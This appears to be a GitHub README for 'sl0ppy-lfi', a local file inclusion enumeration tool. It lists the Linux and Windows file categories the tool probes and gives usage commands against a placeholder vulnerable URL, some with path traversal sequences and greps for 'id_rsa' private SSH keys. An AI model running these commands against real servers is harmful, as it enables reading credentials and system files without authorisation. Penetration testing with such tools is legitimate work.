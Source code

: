 # sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* linux local files 
* linux log files 
* Linux proc files
* linux apache files
* linux .ssh files
* linux other files 

* windows local files
* windows log files
* windows config files
* windows other stuff    
* and alot more 

# Usage 
* sl0ppy-lfi-fw  
* sl0ppy-lfi 

# Usage sl0ppy-lfi-fw (sl0ppy-lfi-framework)
* ./sl0ppy-lfi-fw 
* Choice 1 for windows based lfi file checks
* choise 2 for linux based lfi file checks
* cboise 3 for linux windows lfi file checks 
* Enter the lfi url whn it ask for it like this.. http://server.vulnerable.com/index.php?page=` 

# Usage sl0ppy-lfi 

# Enum all sl0ppy-lfi
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../` 


# Enum specific stuff like only libc
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "id_rsa"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "libc"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "id_rsa"`

# Output Enum 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= > output && cat output`  

# sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 
